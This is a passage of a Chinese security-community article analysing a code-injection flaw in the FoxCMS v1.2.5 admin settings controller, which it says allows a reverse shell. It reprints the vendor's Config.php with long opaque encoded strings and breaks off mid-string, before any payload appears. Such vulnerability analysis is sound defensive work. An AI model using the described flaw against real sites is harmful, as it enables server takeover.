# FoxCMS最新版本漏洞挖掘分析-先知社区

> **来源**: https://xz.aliyun.com/news/16897  
> **文章ID**: 16897

---

## FoxCMS

FoxCMS是一套可免费商用开源的内容管理系统，采用PHP+MySQL架构。内置企业常用的内容模型，如单页、文章、产品、图集、视频、反馈、下载等，并配备丰富的模板标签及强大的SEO和伪静态优化机制。无需复杂编程技能，仅需掌握HTML即可快速构建出多元化的应用场景，实现内容的高效管理。

​

源码地址：<https://gitee.com/qianfox/foxcms#>



## 代码注入漏洞

FoxCMS最新版本v1.2.5网站设置功能存在代码拼接导致的命令执行漏洞攻击者可以利用该漏洞代码拼接反弹shell拿到服务器权限。

### 调试分析

漏洞在控制器文件`app\admin\controller\Config.php`

```
<?php

/**
 * @Descripttion : FOXCMS 是一款高效的 PHP 多端跨平台内容管理系统
 * @Author : FoxCMS Team
 * @Date : 2023/6/26   14:38
 * @version : V1.08
 * @copyright : ©2021-现在 贵州黔狐科技股份有限公司 版权所有
 * @LastEditTime : 2023/6/26   14:38
 */

namespace app\admin\controller;

use app\common\controller\AdminBase;
use app\common\model\Basic as BasicModel;
use app\common\model\Template;
use think\Exception;
use think\facade\Db;
use think\facade\View;

class Config extends AdminBase
{
    //配置文件目录
    protected $folder = 'cfg';

    // 基本配置
    public function base()
    {
        $param = $this->request->param();
        if (array_key_exists('bcid', $param)) {
            View::assign('bcid', $param['bcid']);
        }
        $lang = $this->getMyLang();
        $basicArr = BasicModel::where([['lang', '=', $lang]])->select()->toArray();
        if (sizeof($basicArr) > 0) {
            $basic = $basicArr[0];
            foreach ($basic as $key => $val) {
                $basic[$key . "_call"] = "{fox:basic name='$key'/}";
            }
            View::assign('id', $basic["id"]);
        } else {
            $basic = [];
            $basicFields = Db::name('basic')->getFields();
            foreach ($basicFields as $key => $field) {
                $basic[$key . "_call"] = "{fox:basic name='$key'/}";
            }
        }
        View::assign('basic', $basic);

        $admin_path = config('adminconfig.admin_path');
        View::assign('admin_path', $admin_path);
        //查询当前模板的类型
        View::assign("templateType", $this->templateType);

        View::assign("by_time", date("Y", time()));
        $versionPath = root_path() . "data/update/version/info.php";
        $versionInfo = require($versionPath);
        $version = "未知";
        if (!empty($versionInfo['version'])) {
            $version = "V{$versionInfo['version']}";
        }
        View::assign("version", $version);
        $base = xn_cfg("base");
        View::assign("base", $base);
        $copyrightInfo = $this->copyrightInfo();
        View::assign("copyrightInfo", $copyrightInfo);
        return view('index');
    }

    // 授权
    private function copyrightInfo()
    {
        $foxcmsDomain = config("adminconfig.foxcms_domain"); //foxcms官网地址
        $foxcmsPathUrl = $foxcmsDomain . url("api/Home/copyrightInfo") . "?keyword={$this->domainNo}";
        $resJson = get_url_content($foxcmsPathUrl);
        if (empty($resJson)) {
            return [];
        }
        $res = json_decode($resJson);
        $data = $res->data;
        if (!($data->is_copyright)) {
            $base = xn_cfg("base");
            if (array_key_exists("copyright_remove_mark", $base) && (intval($base['copyright_remove_mark'] . ""))) {
                $base['copyright_remove_mark'] = '0';
                set_php_arr(config_path("cfg"), 'base.php', $base);
            }
        }
        return $data;
    }

    public function save()
    {
        $param = $this->request->post();
        $id = $param["id"];
        $base = xn_cfg("base");
        if ($param["status"] != $base["status"]) {
            //保存状态
            $base["status"] = $param["status"];
        }
        if ($base["status"] == 0) {
            $base["status_desc"] = $param["status_desc"];
        }

        if ($base['copyright_mark'] != $param['copyright_mark']) {
            $base['copyright_mark'] = $param['copyright_mark'];
            $copyright_mark_desc = "";
            if ($param['copyright_mark'] == 1) {
                $copyright_mark_desc = 'fd72bSHX4oDNwz44otEPuqo2mtVYMV1SpwCXdeIkhGNpp4FV2IjkjPcWL5x2gBTnmTeGfddN/DbGCYloPlMW9TXA0i4bGnRP9u/O6LrJc6ZKhYNG1uhNEmx7258k15KGuG4JmTQR4aVuE1foEVS8jesSsJjsICeyrZ52Us0mQ+yiR7puMQUDakZjw6Z3Hx8yJIOfbBkILMoZFckX83M8HUwn9ustzDNwTg42Q5/RO6PO9XWEV7Dr3kRhsOOzMDZbLoThkObKowxFE8i8oRPVo9wzQsDcPyog98IstVArSx6NFA7BxfG84KYvzCC4T8UX8pke9XQZo4xWnKaPOz+Ga5CvXsEsWg56Qv+8wjtlk42YUrOeptS752MW2tWns18GLC475eL7ITr0RgOK6q6DSDsaVa25z0sgFFns8pKBEJWM1C9laExssU+6GtmQgTIvhrHtMwQnuP40g85/YRsC6u97rSMIaCMm3LvmVAbE7KcKx1JU/KMdfbx88/u4gHeqvjmm1xunk4Vsou/hhwoCZws';
            } elseif ($param['copyright_mark'] == 2) {
                $copyright_mark_desc = 'b367x0Wozlgm5MZg6WwsNktykugm5DVCTjNRFCTofb6iqBl2FOqazXQ+ZUkleaLrOjJ9ovHVWVZfO9qJmgHgIlOhZ6UNE6Sm2+S+3z2o7jN+RXhsOrZZCTGAbCw14kc12xIfPjAPX1TuEiHm7V1EadDwDToDe8S7/tlA5NyeoecHNYtwAU1edurREs/n1ZkMqP8p0MswFilEguCT25t4dxHW4xvRYBvuSJh2UgVr3/63eCvbNYMqF4GLkkV6NKvQugxtwAEavXpImiG9CQNwmx4oWzqFq2+XWQFyV9RTJPEcPMtQMglW0caewmY8CG5/i+1fRbr7DowUJqVkpPR8aL19cICCI58bIPRuVrLJw3zNE8hCfmw63vN0JjjhG8IwRTwoiy0ma0c4fsVZYr+FMd0t9OPP996zStIRkj7KrymCO0dNTJEXbp8Ocua0afepHDnJJEbkfr6hdDNwvlj3vZmPJMGellGqgz1QmlNBiRhDUkVPdhHir/PKOey6Buh2zpdH/IyQ4R4lt+RTGem/KvV4cwsQbRAyag';
            } elseif ($param['copyright_mark'] == 3) {
                $copyright_mark_desc = '1bd9roovpIJlgZiv0RDoP7ioVdgGB7Xqm9Ld1av574q2YJBbnGcUEjbfXwTGhQ4YlT4CKt1Mx7ZqksXTWoKZdiMe+r99J0bDJJmemX80tTihLbreqDnZB2JVigZ8ibOFL+4qYWJJUg5kcHc0BFksR7wECVXb1eDtDp3Cmsz+KwkTUSbFTVdFF74brBh8T+cQqbcCPjPBo6Yfh86Dw6bML2ZD1BlZllVtJeWb3sYhfLkTn7COPUe7W+WsQ6FFEVsoaCaWKTtgX8zfgdStbPfU2xbB0yO0OqtBgS0u1AEKAl/sPdfRA2F6GhHP2QlLyzLAUyUeAM7S4IcxiiUU0Q6KxA+w742GSSglh6/UiR4zqSsQM2j2bMmo/Byirg5v3ZQ3O+1el0pHoqQCu63zTtM5/22SrfNQQbh7mDCrGoyCz2kMd4x7yNzAPCrMWRIbzboW2BRGYuPfM6XFnF6LLOyGZvmTw0VG58xUGF0ccpEqOPiL9Hgg25QIqrghmi7t008bm2RthbL+bpunnhxW3YK1y1oqCxvKhQgEhI5rbzQnfSihc3XsQFoOqcgJa+TGNme0+9sI13kwuQSPJgFbvIuxz7YGP/aB0uZNXbgSs6QwGBBWTM3WukDX8iGX4PsppR6aSu9W7cP1JRpT1WvSL3YFaU+CIgf5WHwk1FCGZRj7uoNiL/Bhg6HtSwXFNloHLqFBPxqWH4cYspdgpmzHAY3P374GIOGuGPHRz06P9IWceqGYnsYXVUM7gvl0xAz6bb58fQ5sNX9lNe2b3TM0+zcarx0PXGlkDXpzUtXceYWwU7EMcI8hY3zm/2odtjmJfY/zlxBH8c76gHhTIclTddwy9NeAXeLSJ1XUD77J48dg2Cv2IZXbVfIN8DB0cO5lfWDjIHX++NSjbwgvY4jbs5JM/aDSMjT94w3S9DqKTPdhQOCnbCigybp6BaMt8pPEao5SKSehM6XoEYPw/N/dvIHQWKvvixzRkujGDwoUgS+1eicR7PxjJJuQmyDvBBJeA3VIByfZiafbWBpXl02Zn/E8sEQzYH5WykaSh6lDNs6mPhpEIEiHrfcgXMSA4DDnlmWlJOTK7ZZtBUVsKkyl5ihDGIoUxd+wNMsnNH5dvW8dALVj4UkeXDwCfu3b8YYKWnoNg2rDfA67cYYebYxRrwpK7/Fp90G/WKrC8jaJZqgDNTux9pStPhkC7eagM2dXPsqo5AWZ+qfX9axsyS5rSqXZRCKtMrEXh1hzyyBpcEi5Kw6/ujrh+iOYIAv4JBBeziLMiIZRoZsem17pJ8jGtAEXfdJwU7FhBTzOx8GI10KywByaiczkS29giKziu//1p/YukJRi+Eh93TaEGtYWch9uHSmbk1Zoe7JgmZvBWiYznF3sigDBojsiKqc8QLWyJzbNl3gx5FS7As2EvjhoA5xKfuTglGZ/67HQ+NJmXhBoEnbr8+49B6AKp3Vhzt450xhZ+66g8uaAOHUdP/JZ99uK4PsnALxiMu3rgWtswFzYjX7bXE0rpp9ZAa6qVdPL04K0DVwIZSEFDUw+uCPCVp16zDzozPtFM8/vJqaEbvZc2P5h2EiRq9BnGfX7riTaTAXslLKoTVNRM9jGpQKkhM6nxxwCB6kkBX+fODdmLv99VW2RcWhjM1mZs3b8ixok4pEmweEkkr5sZ1qnzCzhsyNXIFLU8eIRp2o+aXDo2t3C3rO1SXLmg7u13PFwsTUQ6izW3QeAZJqw1CPldT+Chw1rv+ix5CYNAYeCTvfma6DtvkAN/XkLWHK62BAybdZsxd+sr2Dqtv/y64thFY3hvveX5btPIQMxjUEnEscd7VBSW+aFkleZjorBBya21Z4+3+uaUxBkFW6x6TCKojL5glXc2mUQTOscBOT5F47D60ZIbpsq106r54ue8ICUh8+tRtt1UWxl0IhAIv2JYGx2IeP0v9tSCuFKYJktUNkq9pJkIVYySDhiLe6i0exfRmkCM4thQ+SxbEf0ltxG+KVQd1wExE4EEx5o6KBT9sWUdCmkZP5bXAoPgkpKVZfafNXDTU9B512zvOg5FII2mBMm8sJtg9aoGn98TdDiV6Ca7R+k7NZPhYTEwNaULMNw/sn/6EZ9UaRRyejJ8Ag4F3uFcPTwAmQLVTV48j4ThfIbb3iDDjuH6vrol5+CHzYs0XBrbxscpLayUe1RL55JRLKVShTPWIMfX3OotIxrMHtastUa2qenw1E+UuwFsAFG5EVUW+tiJjurIEtTi/8T+ebuwSYJZPcaN4bCnGNs+DwXlIC3twSvMUpg3BYvMkutSIyAtquEwzsTNR5HV1WQXeW96yc5O1m2+oLIAyr+ywSKhr6iFs8zwy/piAVD4zdNxQ3uVG74rYL+fr674szCkvp4ltRTRS+j7d+eXKERIHDg/FI9QFs67naGv+4pBlfBgI6J8Hpn5F5EAKi7N14RBJ65IKWqHLnQenY/fqFA0OvMJES2p1usyRuFAy0tsJzcuF3JDhnRdDShj5WPMvG+EnzoZFm1bG8WI40A0v0slukdOVx3jvGzMzKNUBsVIzo/U7HzPAIGw/Q+L+2ByEY1f+SonQfw5yx11TU4aClYWtTna9NDaDpK8uSQ8IguojWj1I6X8KAEROhI00lfSsTIdc81QfcqEFC89v0OBkVAmD5Ay4xcgtHdT9jLhvl1Uf99rSJ9N80XOtJfjYqJ+e0TFptasUfoB1OXwOcEMpe/ynbeGYQoZJIOvt6M/0WWXFZ5XLSwXzraLz+NOWBDZKmqx8voBlenRDckKFBvp1JJJHAC4h63IqA/HWWLyqlgsU7gcwTgS60FyEpS8j6cOvcDFNY6NFPm028FG6y0br6vgRyNqsYEyZbjpoNyVEHZGMgIhxXA5STa5kv8QOJw6jKm0JrMgqhdXB56zJL4gdR+5Sn1YF9gM6CvUTkEIJGBZj693UqxgybTedcwz2QFwrIojYPWiw0XPgO+W749uu1IyFWJr5r3YIkX9xPRHYK0wX0QhEfdMabT0slv8obD5uaEz2ol9AVCsdNGHNpiKWXLURZ9zFIcHVQos29M6Tx3Ba59IOJ0ISpwtl8x8MuP4gXhW2tpV8FfuS5qABBBo45BwtvfdIBK2l9awwQ0KVyXgt6/cPNNROhR5E0labK23YVBx4ilKm7lHkBPRN4TQsg04CH4Xp0KveKU4sPHZ2l0YL3DNRdS7YWD9FRfimq/rmPM7yUpk23JynLpyUR+bNkEguSg07sFrhExS/rvBRR47xo734hSonY+wh8cW1pnTwpeb+p+cyMDLS6jP3nMiAkPxxYmIo1LnCBpP9cgEA57FHVbMuZmm52VE6NS0fsjIiSgjAMN8BrGn1IR8w0eZlx2Og+/WHUQSCMzLEpcevSf/ZSQVO9nyigl/l+8m7mYP0T5/K/IUOHSKY32ILQk/s04P8inrCFu6++UdnZJdlUJpq+x/IShR/91S0mVxhjXhfEMkanfzvMQVi8mtFfUxAS3AfoI2OhcryLfrxWBQxAE//zkr/I21QAj96d3dZOHfh0dKxc07AE78Xb1bTq2Szj6gYUnWS0UnCYBjdM082rdJgvr1oQrs3hLqgaGwW2Mja5GICl6HWUBQYDkUgbbaju3lwP3JCnwSy0m/O6+KSdjAHV55bxFx7tfa4VqxQ8SViRItHlvbEptPOPUIGHGm+bENhL7fvpwlSAY7JR7+PkgnwXo9aOLclCc5h8OScYBhcpJR9ftptmas3b/JkuirEBROBrZL82egAZV2R6sQ+VajWNXYLt55pJ0Zn5zKIp3NKnIg3kDpkT/sTfuUTUTPrUEjyWJL+2aAfF01VUycTU0ma93k3cipBoXKKQFUYE/8l7zcqzf6aPIxZfQSiXh9gYg+Dadw8PPT8MSyiqJxlU2i3etOsdZWT02f4f098xJajFyJlrT6Qc6X2dSU2GA9ZcyVyWDLjCDgCfARwkJ8JO713FQUfg76+NZQk6zhjEGubIzqJSIRGrafPUogWni2KRU88sCMk+cvSVu3DiLH1E+SZUP2yGtZRmVolRncCPu5kAIwlNu4GGymF0jzY7XQzq+aWrUmz2umVSEqRnsagu3CiaSWF4wq0ub3RBSlaH6HrG6hargC1+3e4avCRNX8kEaLRubJzLpx+SYoSceRqHaNO/74BRPG1WpBkM1CjM3l85Ia8al+B06m3Lbh348bx7pkkxMsVpuwkLSt0AYr3aZgzNetcJelF5ka5EzT4zagcM/Jte009ICvgsA1/Dt1is4I+RyZU2//wkIR7NfCJZHNXr0iMd12Lm7+6iAb8GysVzRt3aw9BzprP6AwVwsrRN0an2hgtpnXqlEmUgyIyJj7bP356I28BTVrV0H6KuQttUO1+LBlnt19aMPbpHLNJEPOaYB3LWUbjEdUCQaq9//2QkbI9/yV5DPzeebC+w4bPcdTkBpyOtgo6aNC9kK/kt1bxHdi/E77EO5nFAvYIDqqQZZf8pPQauhNKtk/ldgLFyzamNSSIkMF1vLX5+knMOZJNfNQWVCuknvRpm8AnrlOONWp8qJfaJOBSIVa2pBXW2LJjOSps0EqaLJ355MWOsxd94hhttAfk9HqFsFOvk5mbQBDSOPXPfUkGl5aBZxoqe0h3VhB10RotgJIlqeCe2S940ntiKtJYnrL5gbR8ONSKGGF0e7pussAWf08D9KsJCJJ3Kk6DdzQYrCT9ctuF4XYLejB+svmNP3pNNA9JRCGcJNqQLkDs2lXQbketcwKeHlu6+2Ke5d/lvLPNAUm5M2L3c663ZUHEPcOZ2G6cn6oBgpf4a7hGkTwDgYvIBtHl5R4ISlyzzxEbqKH/RK9af4SzcIOnZPyyyTSvdY9HxHUIFeIShIej5i8r4sazKFa2U83XpTCZ390slt1uF+9oeqbmYWuw3BG4CHIeE3YQy4HRLqN0sEABj/3sl7RXfKn9s2Zf8gqpn4qD2y9EW39grxbsysMQgVH9l3meQfPBWx01UwNCopWUijJU2nM6ssbTVUPKnVF32/3ItX8UPFbUDl6jrEAGEJX/w4lTDW7EYzSfA18Yfpe5BGltbDPa6mwI5biZ6btNO4JeOXzbqM8qTXLwdhRMKvvAV2YGgBtp44eJtHJiE4Y9THONKF1XoQxxK4Kfb08mjWGgVFhdlGtKUL/7T08izS0RbgEURdrrPQTXa3alnRsjT1/kw5EQTUgnZlEYS827m5enRmp/xZB/XBpeAjTliqhcrQghcAopVUmVOw1q/e6TyRByaeLJHvgZuscbIAaRsb6P1vl4R6YZuCd0pA2HRQSUHAvGTQbi0ucW3LKS9Cz8TV//EglSL+cIma284siVeQfDkTfFhZugRzPVS1DYsqutETWfPqQaDR6zDZQ8uIgrg1eQwCrJ239+9R9I3dAXGDZXbDvHumDis02Ve0e7utNqw++i0zGclklqdcUbfudliqlqFyYTIo/yVjksrHFlwSRY7Z+1oLuQGZgz6Rrshp5byF3Gx4XLoRWPXBK3LMiMwPOCYng2x1zzwyRGxLMpwtU3IJHuthHx6kyadymj5CnmOWUQRNQcCGnmbVtTy+QBZBTF8CiPsnFeuOgK6h9r6g729frvK/qgBse89nCQ6xotol2zCUbag4KgapQ9xNqhSPKmE00wvwTdYBSF6SNDda0DJGrsFVQBZsr6WLHlmiaEbBr1RpUwNAwYqtdfeArbRIBnoOD/bIKW/k4t7FFYsTwvfjMMU++KbptSZQu5jwvXXEFYqwy3kxfOgsHZ4vIToig7lsJgXOG6hTyY5K2/3+BABo5IKmtWAKnfGBfiwC+gloxl6sG+Uw1ABNB18QRaSFnHw/vTEdsXvF6Wx/PG0DwLx/lQcwefeJkrgaGiMk1Y7qOL6MyJdiexRVIf4YG7GjysB9R2SNDKRjIS1cFvr8B//HK8niSrzKDN47cPRnOwovTmdbtfT8reqd6tj359Qmpe9gwBoA+y5skOvI183Afk0Redbs/6OjcJe243WPxanQMEUsM/rGisybnUaNkjkNQIT3Z/wS++b/cIUEJxGsK1zpMsxH3h8nke9Hrg2MoxV4T2zXKOx63/zQoImOMJv4MHq6YOw7KGrD1Lf+6qVo+408z8YVhERQ9gUUcGETlPqtz4c6VTHvY6TmeHuQaN5rdrzBC0+szug2Pi0akJbP7G1L6Ua5fbhL0z3kPHDeOyqzQcOwMlbA8GMClcMPy20zk783lrbSIH8y4adpxsTUtMz+kachGU23rQ08cmDQlDcH3pMRwm5kklunr0rqSkMZShMe8QjEyyoiEKEzG0i/AMFPF4NXVWRgIho0iWd37TCLble5EBD6CTpJCBRhdQleG/VOa6XwMr+ypBDrjI239rgEABSlErSBvR+GQTF70qUKum7+qR3oh5IhcTRuzCR1L8Ki5+qvbvZpKKSw1E15lSttxVvXmkSXQIBI6of59Ewfe+DyfSD2ZllmhSEp/VXYpUDu0DdSqO2BHR8Jk+C/BlHbLWHcqA9xSQRCEUvSJdXJDKOTy23dvlwvbeW0A0/OyDPPij4dDAIf6OiJ9yv2kNzqShI3/VKZTWLDo16O7ENVp9qCP8GqcP5AjLho5PlhR/0IzJrvTE7SVZqnO+qflcyo7rxH1bsHSFOSgqw48sopu8tyyHh27vm/F/zT7k+9ulYblkLaU4UWeMn5W5GO87K63j8qTyWVBqwpu2K5rKmd6yRRjW610dOloinR9otPGul/I9eSiexgX3zbY9jCHTsSuzuRkK3F5XJ3LmcwmunWFZU2phvMPnn/8Zvs28lJJBrLBba01y/K/d4J7nucN7qaIgEr/007DNKwOZbGQv7WcQd+6v0imNQiyLK4z253SqxuZgXkbB3sOiAtIxhlm/Q8mfwbN+Kw0vD7BPv3PlQLcb0j24AjRs4xNeKBwaFNBaOtHwxSMTmcaFi7HwAz+ucMhBbFYgQxSwI/jIfagZMABtmGoDCXmDh+uvHjISP8ax3suJPmteMFz+puFQ+Ca5JbxFvNX95jdsS3DI3Dg1XHT3RmrlNiXr8UdvS6RaXC0ws4bCJcEvMXAndVe6aF4mIGxDWSEspGkdELtUVhLkpu0PkEYE5ku+gKZhZVWf7cN0ReaNHQ+bHANgk05oeqPRc7vlIMgNgjR4r2K/vYyjI+FGLrl1WgX6T32fXlbUVGV1xN66vppoXmucfQPc/MxFA+o1wol0p6B9TO5cpJXbPq47SCF0UHK7wK09vnPwWKEWmKS7Fwk1F4lQ3V8ImBBGDLHqUVQyA7e/TiKNb46O1vFezgCV3jVW5rQ0g5cyRvRwm+tu8wXSTRYDj6E7RoQHE4Fe0gPRCwh3TwBWtUR9USfZ/ncVigSjGMbYjdkeXavclKAFAf3wDiyZ2bLlmaEW6YzIR5fWw798fMQF2IL9VZj+v7TwKmhvsMjUCjzfAgij440o8ACIvhtPRZRcN4W2HG5rGKUMFgMP2RpuCO19eP7YcEB6fqdNg2H6HFMdCGrZHKWsTYWsS3xqjSIz2fIqpoRvLp+YGGgITEpgUH1QKcOb0zmPhHcAS3mxPl0b26Rd5IgvRghrJm0jtZzt54xx9MrvzZWALEyofie/f9UCL0MLRo9D2wStKNW5HdC/JgcjYvzheeldX+u3/7iRBDC3J370+8MfhxPFnDKR/HwH+sfSj8UskY7mUvludR7DBUfukHYlBqlO8hT4JLumJNGmYCmc+vsYCWGS1x49bdReZwL/lnd9cL+/J1aiG6J33ysojW9HQCH7Xs00jShwIkgHghcAR4s7+BQLOjchqx3k16s2a5kGwiyyeqWlfmsSN8xHDRv4vRyo1gzEVCMNwDFDcIBelyEq1KgTUVjFJm199dyXGKgf3ZTKqLMllCUZt5PZSilkHmeRUY2aKM1/3Vw6oViUWgh+cvqqDJO78uOutJezz4fmVK0uEwxj0or1Z3+I/CAWO6rSCCtPOpJnZU56sUIQm6MRzU6+RhAvgfRjj7hSm5hvW8cwUFnHlLbHg/sxSWeSV1GTzkrscohdQVh0uBSq9ZfxgwO/qG1/Mu6kn/+YNzqnDS/SpNFdRjnp2y2UQV6Kx0ii9YMKaQZSON3HwYbS+E6paDZit0u0+2bDLarWCbvaIIlBrltobiIUsrkkQtzyLva7py3SHAADBZYJWR3y+ckNswSwCIxbOkHv40sKzPyFuv3YXQXakgmqRvdDfh+9LvDBxj9EHHCKD+/qArfVTyS1jHNDSXf4wus8UmNT8c7Es/A0m0BNo1u7Q8O/N1/cu3FZ9/xZrK25htVG1GSy+KIo5CGl1SXA8MjyA0WIoUgkkC99fJYf96y/+y4fr0DhCiK7De5R/Afd6LXUR/bCb8YhRMkEceKfXIpenwU5BH/m2Ysp81FikjWj/W7m7oYX51WITctjDNWCcqm2XLqLl34QLWIFwn5k+3IV7Lp1qwcL2Mv3QFWMgvqJkZt4eZGMK4B6HaEvcTOtffacUTAHujF6um8tWLaN8WIrYn1mtBi6KUIVu8M1iipl1s1Rp0iEpjv5SB5BQUaZSyHak6jZcT+vtBjjnY35WIdBE655qECfcKhVoZ35pwb+DJdsnE+f/HgLVkCGE8AIfym6lJFC4UlMNCDDNqFgcXyVWyVk7kUIxPFrlC7X4EuiZICps7vQ7+EM+U59PRwsJcQrcoZ8xw2E2+gMetQgMhHcNNKcnjtuWmk9r1cMgRnxEK7/ph+CtI9r2MIILUKh05F0vmHE9SJaYMbx/+7LK/KTIbpcUnapFBGTSgSFGI8mTAHDZ2iLohFuEdiH5PYpocaQJ3pPS0hejSwzBzQv6Q0LAHLBn5effQJ8wvawexXcdbtmi3hFZQOtIqmq7So5f9BoSnPmseICQiy2z5TQ450fKpqHz22tzuzJJ8ENn1pc/F7IvoiTupcEALYYl5XFL6qX6nv/OOoXCp5sJwjolwE2iclmb/l+8eNFu550TrBv8SNWbBDhl2RU9ZqSo6nyFhKC5IyIsXIpGw6jA2at/mIVxhhoWos7B5tNiO0pvzygHVY3Hd6WqxbrWxMCcBvpb/sNez3q2mPkilThJce4nEIFb+NCkrrClXU6JK6znMOLL0gv3CmtGZz+JvYA5c0Q9bTbLVcgw40fuztnG6Q7syn9jC/ScxxYXYJ3USvLfbPs+/2XNmiUCdV4M0lu6TLdWdF4AOZB1Jsi1PPiJ0qutrhg7gm/s/sWw07gCOlAV2blxlho+frgmKVMEliO5jMrxe0Hbxs9zwPfavnWOWufS0YwGYvJj7Svd+O90jNS/neL1X1uB8Qs9UfvvPE5Cjq8s8zkMYb20cB43zqczTFxiT+O1LCzn+F7enIZHPavyh617dxvjTZLHt50XkIOdz5USn9KP0NA1GgLvBdN10mD8C1YZ8J2lpPDisr2fe3l7yyf3FxI/ee51oAAcvC8jDCvCaB28af7dcqAAB94YY/hqbcBhyGby3tFEQMBbLfuf09Guar7j71lDW8UjQbScvMgf5CDPR6X7j50jZ4f63qHjAeDJl2TLdeYWh768liu6yqoMjNO9V9cygCRVCnzk9kOxSlW9U87oy692XP01pvb+liSVr7IvS+D/eI1q1L7CHua01VswOYZcHMJCru3JRsIEtr0l8IWw4rosp46vHKs/PtCUVFnvRcc1Z2oF7RWbNUmhUN1bpuWpxAlvt9B1W8Bu8ujxN9rb7J1O+pxQbmxr3LWX7HvbJ6JUDkvILOnyy3mfYg1MaEqypUkikaDiF0suH7ySJ+fC3loqWqJtgTNI9cOuJ+LlbAEMtiUnoTj2JInBFkbosynk9wQDJAUDIeFn1HTULUZrglcAO0V219q3tCQHTfZeo4L9HngwYu1TZlTJbMEAYnpenaa/KIKm78mXOEXM4ri7LsF7SeBj0LRun1DN80seTebFlNEpQomdWOGrAnD5bo3o6XVoyi4xJ90tM442gjjibfMJMIhz7WjWUfERyMEDqg3tC5gAGaM8TTLBwIbJrQtfee5TIUeKRRYfQJ5/h5w3jWNDjDmn0VUU3vVhFjrBh1BhKniZ4xtW/nKzYEL1b6xDKiELmodlMh20QlkI+3i8msk9cUPUiXKvNm8J4y8kHKX4IVeElqNYy9Jq5oPe+QAe6ZfIqrihYc95bxGpKUbXlarc5pNbcZ/8PLsDMuezVv+GS2w0lksJbXAXo2mPwPqkkbhZOhF6fJbOi4dsItOkIhgjRegU3yPWiSczl3jB53Z7Oj8/l62pYMtrgzlqsx9n8ZXFVZrO/uVopFzSu5XCZ+YevjkltsgE0DFzW1as0RYjGIEJGczp4SQjMH8AMX47svqBUek6pkC8Opmp1VCLO9svf+bT0s51hLL+ovWhL4OQhGrZzXgf/Pkc4hMqfRZ5Qs2SEb+C1Aylatvq9Mur5CJWdN6VQgwTs21FkhtEZut7hWCvH2iAumAJxfj93Ns2CyVTU3EX0JrapEQjc+fM4wn1UaElxOjWEhC9wb1TR1H+Kb43kXSExX4ezsZFwqPeUxQhY18libtM5Rf7+vPyTGcUqFYc76Dh4nkuEBDliTcf8HK112unipgJ3HyTKx+IhAHhMf64YiGCN09ZTjCsTDS5gJ0NfeLfnMAvwTYRbYdZ4QEXWDGX7JmDSK/7fIROJOVyc55f/G/ri27U5USxaTVUt6+voT07ps17+v337xCzfVCaIY+0DRZoYXM1hWWrvxrxkcplyyarTVncIsuBxj7N+JolQBmaBh8rtoYB20DoKCzHATbcxu1/IEXY/rqFMEBJo6BoawwOxpwxzPFMGosSr4HPt/Fsou9y+LgL3pKQHOOklpL2o6TMItKj4vXtUvBVAx08/3cAbqXuWsGodKTKOJStHpnh1s+7m278Y7A1Shn5nzYMg1t8L5oFd7jLyXJX74MSjgRjxZVw2zRGNEft9FxZf5s96NHXOC/gz6E7ooUzW1TW4zVsqpTF+YWE4cOklZw3ijB1tZOXLAkXtpFLQb+J6lKyhUB3xymCCpcyOYlhnvsPkfQdopJxTlwB1YntUn91rZpCC+YKB6UEW6483IdrTGR7gHYlZIObOVctl3AKtHc2nnzdoS8VNELr+efWnCDPOp14zJyDW4F75RnyQEzhgnIXvghxDaz8kyR0fF+9K2Et6gSSF7whsS+9Ln8WaX+TtCU/gRp5YJ2qjrzKL0de0FQG5W855A8JhrJn/+xL61/PvZI3+8NkjVwhEnkP29587iCjYuqZNI9DjP5Pzl1acviitRSVFQ79PjUvcFLCh/8VNsl+hzxFfEfV4C7JBcdCAlKY6+O1Y5sjVCcoGNMRtZHkMP5reG7EQnx2BQoJtHbzLFHHPJrZ790tHXRI9zncqa1K9yT+TiAJy0pXo5y8AgG60ZXAxz3NKyMLjlnl2d1aT1e/6RBO4GXfVOAHPS9+YDOuLvj/C5CfRp+7UB11zASzCveV6AjESsghpfbwIhxW2+GJNQ1mTlpHd0JDhjvGK9xbyHvACvRLZrLp+AbnzXaoOpOqiZiNOquJi8wP7X1oOc+SxNwqOP5zYddxumlyUIwflmkwB4Yp3meG4zTYPpLEtONqedaILgVdbdCw9UGNaO11aK9XU+/u34xmSyziv/Tci3+j/jrbxrE9sR69uXAUYaaAvCtMykxlUKnAGw5NaZ+8UATAmtULDsONk6au4xwGNXwuHssd1qZT580elNUwjO41yETjGT+jwYZ3tvw/DYNk6SW1yZdJJHqtrj/fMv/e+NUzlRycqlGV5Av5CWsjm9K52No8JFvSLiiNpfW9AmpjqAYgImPOf3h284PoluLuJ65ki2Z4uS+Z1zR0S6mSHfnbqfMguXrHUJ7Pi9YMMA/AMgxw7TMTNyY5O7Yeqk4IBFUNLchFlnCaZQNIvQYsp91WKEGK2Oq0caH1M6hbVKqhNMl2l9yJ54kqO8JcxXJBr9lPO3a03DTPEEKcYb+9bEm/vMLL1Y2JGJEHD1wmCSNpRkrNKJyYMxitThT5tGPSI0joYW+80fP3klvu+UtXkjahqVKKS9aW6EgFu+6Dylb9RfHBd7HG7j4+PQiV+jCGWK0uIbiDp